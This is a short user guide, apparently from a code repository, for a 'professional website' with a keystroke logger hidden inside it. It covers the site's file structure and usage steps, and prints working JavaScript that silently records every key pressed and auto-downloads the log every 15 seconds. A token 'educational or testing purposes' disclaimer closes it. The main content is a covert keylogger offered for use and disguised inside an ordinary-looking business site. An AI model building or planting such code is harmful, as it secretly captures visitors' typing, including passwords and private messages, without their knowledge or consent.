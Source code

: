 
# User Guide for Keystroke Logger - Professional Website

## Overview
The "Keystroke Logger - Professional Website" is a basic web-based keystroke logger designed for educational or testing purposes. It monitors keyboard inputs in the background and periodically saves the logs as a text file.

### Features:
- Captures user keystrokes dynamically.
- Downloads the captured keystrokes every 15 seconds.
- Includes a user-friendly design and responsive layout.

---

## File Structure
### HTML
Contains the main structure of the website:
- **Header and Navigation**: Title and basic introduction.
- **Sections**: "About Us", "Our Services", "Team", and "Contact Us".
- **Keystroke Logger**: A hidden textarea element and embedded script for logging keystrokes.

### CSS
Defines the visual appearance and animations, including:
- Background gradients and shadows.
- Button hover effects.
- Card layout for services.
- Smooth fade-in animations.

### JavaScript
Implements the keystroke logger functionality:
- Captures and stores all keyboard inputs dynamically.
- Automatically downloads the logs every 15 seconds.

---

## How to Use
1. **Load the Website**: Open the HTML file in a web browser.
2. **Interact with the Website**:
   - Navigate through the sections ("About Us", "Services", etc.).
   - Perform any keyboard input during the session.
3. **Keystroke Logging**:
   - The logger will capture all keystrokes in the background.
   - A `.txt` file containing the captured keystrokes will automatically download every 15 seconds.

---

## Code Explanation

### Key JavaScript Code
```javascript
let keystrokes = "";

// Capture keypresses in the background
document.addEventListener("keydown", (event) => {
  keystrokes += event.key; // Append the pressed key to the log
});

// Function to download the keystrokes log as a file
function downloadLog() {
  if (keystrokes) {
    const blob = new Blob([keystrokes], { type: "text/plain" });
    const url = URL.createObjectURL(blob);
    const a = document.createElement("a");
    a.href = url;
    a.download = "keystrokes_log.txt";
    document.body.appendChild(a);
    a.click();
    document.body.removeChild(a);
    keystrokes = ""; // Clear log
  }
}

// Timer to auto-download every 15 seconds
setInterval(() => {
  downloadLog();
}, 15000); // 15 seconds
```

---

## Important Notes
- **Purpose**: This project is for educational or testing purposes only. Using it for unauthorized data collection or malicious activities violates ethical standards and may be illegal.
- **Security Warning**: Ensure you have permission to use this tool in the environment where it is deployed.

---

## Credits
Website design and functionality created by [Your Name/Company Name].
